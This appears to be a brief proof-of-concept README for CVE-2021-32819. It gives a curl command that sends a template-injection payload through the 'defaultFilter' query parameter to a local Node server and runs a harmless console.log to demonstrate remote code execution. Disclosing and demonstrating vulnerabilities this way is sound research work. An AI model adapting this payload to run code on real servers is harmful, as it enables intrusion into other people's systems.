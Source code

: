 Perform remote code execution using the following payload in a different terminal
```
curl "http://localhost:3000/?test=aaaa&autoEscape=&defaultFilter=e');console.log(41414141)//"
```

This vulnerability can cause remore code execution, cross site scripting, etc.

This vulnerability is CVE-2021-32819

To know more, go to the link:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32819


